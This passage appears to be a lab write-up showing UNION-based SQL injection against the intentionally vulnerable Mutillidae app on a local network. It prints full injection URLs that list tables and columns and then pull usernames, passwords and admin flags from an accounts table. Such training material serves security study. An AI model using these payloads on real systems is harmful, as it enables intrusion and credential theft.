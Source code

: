 
![image](https://github.com/Irenejecinthamerlin/sqlinjection/assets/128350225/87954deb-b5c8-4bfb-aaba-9f3aeb1fa73c)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details



![image](https://github.com/Irenejecinthamerlin/sqlinjection/assets/128350225/88748b10-457c-4ee6-ac3e-426618c9eaea)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.



![image](https://github.com/Irenejecinthamerlin/sqlinjection/assets/128350225/72a9d6aa-0255-4eda-b5ec-268a405c4265)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details



![image](https://github.com/Irenejecinthamerlin/sqlinjection/assets/128350225/e7b8e205-c244-4eaf-b401-4546e157751e)



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Irenejecinthamerlin/sqlinjection/assets/128350225/1a59cc53-bc99-4bf0-b079-2547b57d3331)
